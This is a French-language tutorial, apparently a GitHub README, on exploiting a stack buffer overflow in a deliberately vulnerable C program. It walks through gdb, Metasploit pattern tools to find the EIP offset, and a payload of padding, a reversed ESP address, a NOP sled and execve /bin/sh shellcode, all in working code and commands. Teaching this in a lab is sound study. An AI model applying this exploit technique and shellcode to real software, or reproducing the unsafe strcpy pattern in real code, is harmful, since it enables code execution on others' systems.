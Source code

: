 ```c
#include <stdio.h>
#include <string.h>

void vuln(char *arg){
	char buffer[20];
	strcpy(buffer, arg);
	printf("\n Hello %s ! \n", buffer);
}  

int main(int argc, char **argv){
	vuln(argv[1]);
	return 0;
}
```

```sh
gcc -z execstack -fno-stack-protector -m32 sayHello.c -o run
```

Avec `gdb`, envoyer un nombre de 'A' au programme 

```c
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Verifier que nous avons bien ecrit sur `EIP` et qu'il a les valeurs `A` soit `0x41414141`

Maintenant il faut chercher le `offset` c'est la taille exact qu'il faut pour ecrire sur `EIP`

```c
msf-pattern_create -l 100
```

Executer la sortie de la commande dans `gdb` 

```c
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4A...
```

Verifier que `EIP` a une nouvelle valeur, prendre cette valeur et trouve l'`offset` 

```c
msf-pattern_offset -q {EIP_VALUE}
```

Ceci vas retourner une valeur qui sera la taille de note offset (`size-offset`)

Donc il nous faut `size-offset` caractere suivie de notre shellcode. En gros tout ce qui se trouve au dela de la taille de notre offset vas etre executer en memoire dans `EBP`

En suite

```c
(gdb) run $(python2 -c "print 'A'*{size-offset}")
```

Le programme vas planter et on verifie le registrer `ESP`

```c
(gdb) info frame
(gdb) print $esp 
# => 0xffffcee0
```

Il faut ecrire la valeur de ESP en envers soit `\xe0\xce\xff\xff` -> {`esp-reverse}

```c
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

> **Executer le programme pour obtenir un shell**

```c
./run $(python2 -c "print 'A'*{size-offset} + '{esp-reverse}' + '\x90'*40 + '{shellcode}'")
```

> [!NOTE] Si nous avons les caracteres `1�Ph//shh/bin��PS��` il faut augmenter le nombre `NOPs`


